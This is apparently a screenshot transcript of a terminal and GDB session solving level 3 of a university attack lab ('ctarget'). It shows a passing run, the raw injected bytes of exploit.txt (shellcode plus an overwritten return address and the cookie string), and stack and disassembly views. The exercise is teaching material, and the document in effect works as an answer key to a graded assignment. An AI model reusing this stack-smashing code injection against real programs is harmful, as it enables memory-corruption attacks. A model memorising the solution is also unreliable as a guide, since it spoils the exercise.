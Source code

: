 
➜  target1 git:(master) ✗ ./ctarget -i exploit-raw.txt -q          
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 93 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
➜  target1 git:(master) ✗ bat exploit.txt 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: exploit.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   2 ~ │ 48 c7 c7 a8 dc 61 55    /* mov    $0x5561dc88,%rdi */
   3 ~ │ 68 fa 18 40 00          /* pushq  $0x4018fa */
   4   │ c3                      /* retq */
   5 ~ │ 93 DC 61 55 00 00 00 00           
   6 ~ │ 35 39 62 39 39 37 66 61 00

$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x0000005561dc78│+0x0000: 0x0000000000000000     ← $rax, $rsp
0x0000005561dc80│+0x0008: 0x0000000000000000
0x0000005561dc88│+0x0010: 0x0000000000000000
0x0000005561dc90│+0x0018: 0xdca8c7c748000000
0x0000005561dc98│+0x0020: 0xc3004018fa685561
0x0000005561dca0│+0x0028: 0x0000005561dc93  →  0x685561dca8c7c748
0x0000005561dca8│+0x0030: "59b997fa"
0x0000005561dcb0│+0x0038: 0x00000000400000  →   jg 0x400047
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4017a8 <getbuf+0>       sub    rsp, 0x28
     0x4017ac <getbuf+4>       mov    rdi, rsp
     0x4017af <getbuf+7>       call   0x401a40 <Gets>
●→   0x4017b4 <getbuf+12>      mov    eax, 0x1
     0x4017b9 <getbuf+17>      add    rsp, 0x28
     0x4017bd <getbuf+21>      ret    
     0x4017be                  nop    
     0x4017bf                  nop    
     0x4017c0 <touch1+0>       sub    rsp, 0x8
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ctarget", stopped 0x4017b4 in getbuf (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4017b4 → getbuf()
[#1] 0x5561dc93 → mov rdi, 0x5561dca8
